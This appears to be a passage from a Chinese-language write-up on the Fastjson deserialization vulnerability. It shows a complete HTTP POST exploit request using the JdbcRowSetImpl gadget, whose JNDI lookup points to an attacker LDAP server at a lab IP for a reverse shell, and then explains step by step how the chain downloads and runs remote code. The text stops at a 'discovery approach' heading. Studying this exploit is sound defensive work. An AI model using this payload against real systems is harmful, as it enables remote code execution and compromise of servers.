 ```
POST / HTTP/1.1
Host: 192.168.142.128:8090
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101
Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/
webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 268
{
"a":{
"@type":"java.lang.Class",
"val":"com.sun.rowset.JdbcRowSetImpl"
},
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://192.168.142.132:9473/LinuxRevers",
"autoCommit":true
}
}
```



# 漏洞原理 

## JdbcRowSetImpl利用链 

1. 1、对JSON数据进行反序列化的时候，会去调用 指定类中对于的get/set/is方法 

2. 2、JdbcRowSetImpl的dataSourceName属性 和autoCommit属性 

   ​		dataSourceName参数在解析时候则会调用 setDataSourceName() 

   

   ​		autoCommit会调用setAutoCommit。 

   ​		setAutoCommit方法调用this.connect() 

3. 3、connetct里面有一行ctx.lookup 

4. 4、连接到指定的恶意LDAP/RMI服务器 

5. 5、下载恶意代码到本地执行

# 漏洞挖掘 

## 思路 

